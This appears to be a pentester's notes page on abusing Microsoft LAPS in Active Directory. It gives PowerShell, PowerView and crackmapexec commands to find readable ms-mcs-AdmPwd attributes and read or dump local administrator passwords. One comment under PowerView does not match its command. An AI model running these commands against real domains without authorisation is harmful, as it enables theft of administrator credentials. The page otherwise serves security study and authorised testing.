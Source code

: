 # Overview
**LAPS** allows you to manage the local **Administrator** password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using [[88 - Kerberos]] v5 and AES.

When using LAPS, 2 new attributes appear in the computer objects of the domain: `ms-mcs-AdmPwd` and `ms-mcs-AdmPwdExpirationTime`. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Tools
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)


# Check If Activated
```powershell
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

# Other Commands
```powershell
# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## PowerView
**PowerView** can also be used to find out **who can read the password and read it**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

# Dumping Credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```

# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html)
